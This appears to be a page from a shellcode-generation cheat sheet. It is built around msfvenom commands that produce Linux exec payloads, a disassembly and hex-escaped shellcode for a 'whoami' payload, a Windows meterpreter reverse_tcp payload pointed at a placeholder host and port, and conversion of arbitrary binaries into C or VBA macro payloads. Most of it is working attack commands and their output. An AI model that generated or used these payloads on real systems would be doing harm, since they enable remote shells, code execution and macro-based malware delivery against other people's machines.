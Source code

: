 `$ msfvenom -p linux/x64/exec cmd=/bin/bash -b "\x00\x0a\x0d" -f c > payload-x64.c`

### 2.2 - Assembler Code

```
$ msfvenom -p linux/x86/exec cmd=whoami R | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E807000000        call 0x24
0000001D  7768              ja 0x87
0000001F  6F                outsd
00000020  61                popa
00000021  6D                insd
00000022  6900575389E1      imul eax,[eax],dword 0xe1895357
00000028  CD80              int 0x80
```

### 2.3 - Shellcode Format

- **Pipe it through hexdump**

```
$ msfvenom -p linux/x86/exec cmd=whoami R | hexdump -v -e '"\\\x" 1/1 "%02x"'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x07\x00\x00\x00\x77\x68\x6f\x61\x6d\x69\x00\x57\x53\x89\xe1\xcd\x80
```

- **Any raw shellcode binary even if it's not related to metasploit using via generic/custom payload**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload-x86.bin`

`$ msfvenom -p generic/custom payloadfile=./payload-x86.bin -a x86 --platform windows -f c -o sc.c`

- You can also use a calculator program as a shellcode

`$ msfvenom -p generic/custom payloadfile=/home/user/calc.exe -a x64 --platform windows -f vba-exe`
